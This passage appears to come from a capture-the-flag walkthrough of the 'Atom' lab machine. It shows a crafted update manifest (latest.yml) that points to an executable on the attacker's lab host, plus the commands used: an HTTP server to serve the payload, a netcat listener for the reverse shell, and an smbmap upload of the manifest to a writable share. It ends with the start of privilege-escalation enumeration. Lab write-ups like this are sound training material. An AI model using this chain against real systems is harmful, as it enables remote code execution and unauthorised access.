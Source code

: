 ```yml
version: 1.2.3
path: http://10.10.14.112/sh'ell.exe
sha512: fbgPsCxt36iy1EnW+E2WkVWME4j7/7eO2rqCCF1545/xN+MvQF9qVSBgALcP8otB4lE9EaZC2JAh0CeBsqZQlg==

```

With the various items in place, I needed to perform the following:
- Create a Python server: `sudo python -m http.server 80`
- Create a netcat listener: `nc -nlvp 1234`
- Upload the `latest.yml` file: `smbmap -u 'guest' -p '' -d Atom -H 10.10.10.237 --upload latest.yml 'Software_Updates/client1/latest.yml'`

After a few seconds, the file was uploaded and I received a shell back from the host:


<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Atom/img6.png"  style="width: 80%" />
</p>


## Privilege Escalation using Jason
Success! With access to the host, I was now able to start basic enumeration on the Windows machine. 

<details></details>

Within the `Downloads` folder, I found 2 directories which mentioned a PortableKanban version that made use of Redis: 

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Atom/img7.png"  style="width: 80%" />
</p>
